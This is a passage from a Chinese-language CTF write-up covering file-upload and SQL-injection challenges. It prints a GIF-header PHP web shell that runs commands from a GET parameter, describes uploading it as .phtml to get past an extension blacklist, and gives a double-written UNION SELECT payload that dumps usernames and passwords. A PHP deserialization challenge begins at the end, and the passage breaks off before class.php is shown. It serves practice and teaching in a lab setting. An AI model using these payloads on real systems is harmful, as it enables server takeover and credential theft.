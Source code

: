 ```html
GIF89A
<script language="php">system($_GET[1]);</script>
```

改后缀为.phtml 上传

![](assets/202208211716151-1700743077637189.png)

## [ACTF2020 新生赛]Upload（文件上传，phtml后缀绕过）

上传后文件自动重命名, 后缀为黑名单过滤

方法同上, 利用 phtml

## [极客大挑战 2019]BabySQL（sql注入，双写绕过）

简单 sql 注入

关键字被替换为空, 双写绕过

```sql
1' ununionion selselectect 1,group_concat(username),group_concat(passwoorrd) frfromom b4bsql #
```

## [极客大挑战 2019]PHP（反序列化，__wakeup绕过）

![](assets/202208211733438-1700743077637191.png)

下载 www.zip 打开

index.php 部分代码

```php
<?php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
?>
```

class.php
